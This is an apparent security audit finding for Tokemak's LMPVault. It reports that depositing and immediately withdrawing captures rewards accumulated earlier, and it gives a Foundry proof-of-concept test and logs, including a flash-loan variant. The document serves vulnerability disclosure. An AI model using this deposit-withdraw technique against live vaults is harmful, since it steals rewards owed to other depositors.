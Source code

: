 Clean Fuchsia Blackbird

high

# User can deposit and immediately withdraw to steal rewards
## Summary

Users deposit tokens to LMPVault to gain rewards. Each user can claim those rewards based on how many shares of the vault he has. The user has also an option to withdraw his funds. This sends his deposited funds + rewards to his address. This mechanism has a vulnerability where the attacker can deposit and withdraw immediately after that which gives him rewards as well based on how much he deposited relative to the vault funds.

## Vulnerability Detail

Users can deposit tokens to LMPVaults. These funds are sent out to other vaults to gain rewards based on strategy. Each user can claim these rewards based on how many shares of the vault he owns. When the user decides to claim his funds it claims rewards as well and sends them to the user with his funds.

There is a vulnerability in this mechanism with inflation. When an attacker deposits, he can withdraw immediately and gain accumulated rewards based on how much he deposited. Take a look at POC below.

### POC

The test is part of **LMPVault-Withdraw.t.sol**.

It is necessary to update **IBaseRewarder.sol** for the purpose of this demo. Paste ```function setTokeLockDuration(uint256 _tokeLockDuration) external;``` to expose the function.

Add ```import "forge-std/console.sol";``` to imports in **LMPVault-Withdraw.t.sol** for logging to work.

Run the test using this command ```forge test --match-contract LMPVaultMintingTests --match-test test_inflationAttack -vv```.

```solidity
function test_inflationAttack() external{
    // Prepare rewards
    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    // setTokeLockDuration not present in IBaseRewarder.sol - function setTokeLockDuration(uint256 _tokeLockDuration) external;
    // Lock duration is set to zero for the demonstration that the user can claim rewards with the same shares transferred to another address
    _lmpVault.rewarder().setTokeLockDuration(0);
    _toke.mint(address(this), 1000e18);
    _toke.approve(address(_lmpVault.rewarder()), 1000e18);
    _lmpVault.rewarder().queueNewRewards(1000e18);
    
    // Prepare users
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address attacker = makeAddr("3");

    _asset.mint(user1,1000);
    _asset.mint(user2,1000);
    _asset.mint(attacker, 100 ether);
    _asset.approve(address(_lmpVault), 1000);

    // Deposits
    vm.startPrank(user1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user2);
    vm.stopPrank();

    // Roll forward
    vm.roll(block.number + 10_000);

    // Attacker deposits and withdraw
    vm.startPrank(attacker);
    uint attackerAmount = 1000;
    // uint attackerAmount = 100 ether;
    _asset.approve(address(_lmpVault), attackerAmount);
    _lmpVault.deposit(attackerAmount, attacker);
    _lmpVault.withdraw(attackerAmount, attacker, attacker);
    vm.stopPrank();

    // User withdraw
    vm.startPrank(user1);
    _lmpVault.withdraw(1000, user1, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _lmpVault.withdraw(1000, user2, user2);
    vm.stopPrank();

    // Log rewards amounts
    console.log("attacker toke:", _toke.balanceOf(attacker));
    console.log("user1 toke:", _toke.balanceOf(user1));
    console.log("user2 toke:", _toke.balanceOf(user2));
}
```

#### 1st run without attacker (comment out the code)

Comment out the code below **Attacker deposit and withdraw**. Rewards are distributed 50/50 between users one and two.

```text
Logs:
  attacker toke: 0
  user1 toke: 500000000000000000000
  user2 toke: 500000000000000000000
```

#### 2nd run where attacker depositing the same amount as other users

The attacker gains 1/3 of accumulated rewards even though he deposited after the time has passed.

```text
Logs:
  attacker toke: 333333333333333333333
  user1 toke: 333333333333333333333
  user2 toke: 333333333333333333333
```

#### 3rd run with attacker deposit boosted with flash loan (switch attackerAmount value in test to 100 ether)

This case is even worse because the attacker boosted his funds with a flash loan and stole most of the rewards.

```text
Logs:
  attacker toke: 999999999999999980000
  user1 toke: 9999
  user2 toke: 9999
```

## Impact

The attacker can steal accumulated rewards when depositing and withdrawing in a single transaction even though he hasn't had funds in the vault during accumulation. This gets even worse when the attacker uses a flash loan to boost his funds.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L448](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L448)

## Tool used

Manual Review

## Recommendation

Make sure the rewards are fairly distributed between users. Create a mechanism to track how much rewards should the user get based on how long he has his funds staked.
